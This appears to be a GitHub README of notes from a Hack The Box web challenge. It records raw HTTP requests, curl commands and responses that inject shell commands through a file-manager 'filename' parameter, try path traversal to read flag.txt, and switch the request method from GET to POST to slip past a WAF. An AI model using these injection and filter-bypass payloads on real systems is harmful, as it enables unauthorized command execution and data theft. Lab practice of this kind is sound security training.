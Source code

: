# HTB_Web_Attack
```
POST /index.php?filename=file1%3B%20touch%20file2%3B  HTTP/1.1
Host: 94.237.60.55:34082
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

filename=file%3B+touch+file2%3B


```



## HTTP request method exploitation and url filtering 


```
POST /index.php?filename=file%3B%20cp%20%2Fflag.txt%20.%2F%3B HTTP/1.1
Host: 94.237.60.55:34082
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```



 ## Attempted combined traversal


 ```

# Try GET with ../ (might work when POST doesn't)
curl -X GET "http://83.136.253.201:36762/index.php?filename=../../flag.txt"

# Use HEAD to check existence without triggering WAF
curl -I -X HEAD "http://83.136.253.201:36762/index.php?filename=../../flag.txt"
```
<body>
    <div class="form-group">
        <h1>File Manager</h1>
        <form role="form" action="index.php" method="GET">
            <input type="text" class="form-control" placeholder="New File Name" name="filename">
        </form>
        <form action="admin/reset.php" method="GET">
            <input type="submit" value="Reset" class="btn btn-danger" />
        </form>
    </div>
</body>
</body>

</html>

<div></div><ul class="list-unstyled" id="file"><div><h3>Available Files:<h3></div><ul><li><h4><a href='notes.txt'>notes.txt</a></h4></li></ul>Malicious Request Denied!</ul




## malicious payload

```
curl -X GET "http://83.136.253.201:36762/index.php?filename=;cat+/flag.txt"

```
<body>
    <div class="form-group">
        <h>File Manager</h>
        <form role="form" action="index.php" method="GET">
            <input type="text" class="form-control" placeholder="New File Name" name="filename">
        </form>
        <form action="admin/reset.php" method="GET">
            <input type="submit" value="Reset" class="btn btn-danger" />
        </form>
    </div>
</body>
</body>

</html>

<div></div><ul class="list-unstyled" id="file"><div><h3>Available Files:<h3></div><ul><li><h4><a href='notes.txt'>notes.txt</a></h4></li></ul>Malicious Request Denied!</ul



### Tried HTTP Method Change GET -> POST

```
POST /index.php HTTP/1.1
Host: 83.136.253.201:36762
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

filename=test12323123%3B
```
<body>
    <div class="form-group">
        <h1>File Manager</h1>
        <form role="form" action="index.php" method="GET">
            <input type="text" class="form-control" placeholder="New File Name" name="filename">
        </form>
        <form action="admin/reset.php" method="GET">
            <input type="submit" value="Reset" class="btn btn-danger" />
        </form>
    </div>
</body>
</body>

</html>

<div></div><ul class="list-unstyled" id="file"><div><h3>Available Files:<h3></div><ul><li><h4><a href='test12323123'>test12323123</a></h4></li></ul><ul><li><h4><a href='test123'>test123</a></h4></li></ul><ul><li><h4><a href='test'>test</a></h4></li></ul><ul><li><h4><a href='notes.txt'>notes.txt</a></h4></li></ul></ul>
